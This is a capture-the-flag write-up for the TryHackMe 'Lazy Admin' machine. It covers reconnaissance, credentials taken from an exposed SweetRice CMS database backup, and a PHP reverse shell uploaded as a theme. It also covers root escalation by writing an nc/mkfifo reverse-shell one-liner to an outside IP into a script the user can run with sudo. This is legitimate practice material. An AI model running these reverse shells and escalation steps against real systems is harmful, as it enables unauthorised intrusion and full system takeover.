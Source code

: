 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Lazy Admin
# DESCRIPTION       . Easy linux machine to practice your skills
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/lazyadmin
```

```bash
sudo nmap -sSVC -T5 10.10.151.163 -p- -oN LazyAdmin 
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I also started `ffuf` while the `nmap` scan was running.

```bash
ffuf -u http://10.10.151.163/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
content                 [Status: 301, Size: 316, Words: 20, Lines: 10]
```

- The root path on the webserver is just the default apache installation, but we hit the jackpot once we go to `/content`.

```


Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

- Fuzzing through `ip/content/FUZZ` one more time, we find additional pages:

```
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
images                  [Status: 301, Size: 320, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
```

- I didn't spend too much time looking in each file that I found, but here's the summary
	
	- `js` contains a bunch of `.js` (duuuh!) files I didn't take a look into.
	
	- `images` - images and `captcha.php`
	
	- `attachment` - empty
	
	- `inc` - a bunch of `.php` files ; in the `mysql_backup` we're able to find and download a `.sql` file and in the `cache` file to download `cache.db`.
	
	- `as` - Sweet Rice CMS Login Panel


- I took a look at the `mysql_backup` file and I've noticed that it is in ASCII.

```bash
file mysql_bakup_20191129023059-1.5.1.sql 

mysql_bakup_20191129023059-1.5.1.sql: PHP script, ASCII text, with very long lines (1125)
```

- Inside, we're able to find the credentials needed for the Login Panel.

![[Pasted image 20231124203720.png]]

- That is an `MD5 Hash` and represents the hash for `{redacted}` password. Credentials: `manager:{redacted}`

- I also took a look into `cache.db` because of pure curiosity, and I've noticed that `sqlite3` doesn't help.

```bash
file cache.db 

cache.db: Berkeley DB (Btree, version 9, native byte-order)
```

- After some quick reseach, I found out that I need to use have `db-utils` package installed in order to use `db_dump` on that `.db`.

```bash
db_dump cache.db 

VERSION=3
format=bytevalue
type=btree
db_pagesize=4096
HEADER=END
 64625f61727261795f3265313035323534626532656366656461626163363638363864636563396236
 313537353032333430392f
 64625f61727261795f6336656162356265366334356438613038383465646535613536633564376433
 313537353032333430392f
 64625f61727261795f6364326264313238643533396638316637326562376562363331646438306332
 313537353032333430392f
DATA=END
```

- I had no idea what this data represents, and considering that I already found the account needed, I assumed there's little need to further investigate this (most probably) rabbit hole.

- Back to our manager account, after we logged in I started looked around for a place to upload things, hopefully a reverse shell.

- I went to `General -> Dashboard` and activated the website, wanted to see how it looks like. ugly.

- I also did that because I wanted to change the default theme so instead of the content in the `main.php`, I would execute a php reverse shell.

- But then I realised I don't need an entire theme for that and I've just used [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell). 

- I have uploaded the shell from the CMS, Themes menu. I added the `.php` file directly, and I took a look in `ip/content/_themes` ; there was a folder called `shell.php` (the name of my file) but it was empty ;

- The trick was to first `zip` the `shell.php` and then upload it. It was also written on the website, but meh, I didn't see it.

- Navigating to `ip/content/_themes/archive_name/shell.php` after starting a listener will grant us a reverse shell.

```
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.138.130] 55604
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:59:55 up 7 min,  0 users,  load average: 0.02, 0.31, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

- Before continuing, I want to state that there were also other methods of getting a reverse shell. Take a look at [this](https://www.exploit-db.com/exploits/40716) exploit and [this](https://www.exploit-db.com/exploits/40700) exploit. I just wanted to find other ways :D 

- Back to our fresh reverse shell - we're under `www-data` user.

- Stabilise the shell

```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

<CTRL + Z>
stty raw -echo; fg
```

- The first flag is located at `/home/itguy/user.txt`.

- A file called `mysql_login.txt` is located in the same path, but I knew these credentials for some time already. You can find them in the CMS by going to `Settings -> General`. You can even change the password of the current user, create a new site with another admin, and so on.

```
rice:{redacted}
```

**DISCLAIMER**:  **DO NOT** click on *Update* in the menu ; the webserver will crash :) Don't ask how I found out.

- The privilege escalation vector I found was quite straight forward. 

- The user had `sudo` permissions for `/usr/bin/perl`.

```
www-data@THM-Chal:/tmp$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

- There is also a "backup" Perl script in `/home/itguy/backup.pl` 

```backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

- All I had to do was to replace the ip in the script with my own and start a listener on the port. Then, run the `backup.pl` script as `sudo`.

```bash
www-data@THM-Chal:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.53.46 5555 >/tmp/f" > /etc/copy.sh
```

```bash
www-data@THM-Chal:/tmp$ sudo /usr/bin/perl /home/itguy/backup.pl
```

- The last flag is located in `/root/root.txt` ; 